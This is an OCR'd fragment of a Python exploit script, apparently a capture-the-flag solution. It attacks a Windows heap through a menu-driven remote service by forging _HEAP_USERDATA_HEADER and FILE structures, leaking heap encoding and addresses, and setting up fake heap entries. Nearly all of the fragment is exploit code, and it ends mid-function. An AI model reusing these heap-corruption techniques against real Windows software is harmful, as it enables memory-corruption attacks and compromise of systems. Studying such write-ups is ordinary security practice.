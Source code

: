 ```python
    for _ in range(0x14):
        open_file()

    fake_HEAP_USERDATA_HEADER = ""
    fake_HEAP_USERDATA_HEADER += p64(heap_base + 0xbcd0)   # +0x000 SubSegment
    fake_HEAP_USERDATA_HEADER += p64(heap_base + 0x12e40)  # +0x008 Reserved
    fake_HEAP_USERDATA_HEADER += p32(0xc)                  # +0x010 SizeIndexAndPadding
    fake_HEAP_USERDATA_HEADER += p32(0xf0e0d0c0)           # +0x014 Signature
    fake_HEAP_USERDATA_HEADER += p64(0) * 5                # I couldn't leak other values

    fake_FILE = ""
    fake_FILE += p64(0) * 2              # _HEAP_ENTRY
    fake_FILE += p64(cursor)             # cursor of SEEK_CUR
    fake_FILE += p64(cursor & ~0xfff)    # base address
    fake_FILE += p32(0x800)              # remaining file size
    fake_FILE += p32(0x2041)             # I dunno what they are
    fake_FILE += p64(0x17)                
    fake_FILE += p64(0x1000)
    fake_FILE += p64(0)
    fake_FILE += p64(0xffffffffffffffff)
    fake_FILE += p64(0xffffffff)
    fake_FILE += p64(0)
    fake_FILE += p64(0)

    for_leak = ""
    for_leak += fake_HEAP_USERDATA_HEADER
    for_leak += fake_FILE * (0x1000 / len(fake_FILE))

    edit(4, for_leak)
    alloc(5, SIZE)
    if leakLazy:
        read_file(5,4)
        result = u64(show(5)[:4].ljust(8, p8(0))) << 16
    else:
        read_file(5,8)
        result = u64(show(5)[:8].ljust(8, p8(0)))

    if disconn:
        sla("Your choice: ", str(6))
        hi.close()

    context.log_level = "info"
    return result


magic_switch = True
def exploit():
    global hi, sla
    hi = remote(HOST, PORT)
    sla = hi.sendlineafter

    alloc(1, SIZE)
    edit(1, "A" * SIZE)
    try:
        heap_encod = u64(show(1)[SIZE:] + "\x00\x10") ^ 0x1000000d02010003
    except struct.error:
        log.info("_HEAP_ENTRY not leaked")
        return

    alloc(2, 0x268)
    alloc(3, 0x200)
    fake_entry = 0x10000027c80101c8 ^ heap_encod
    '''
```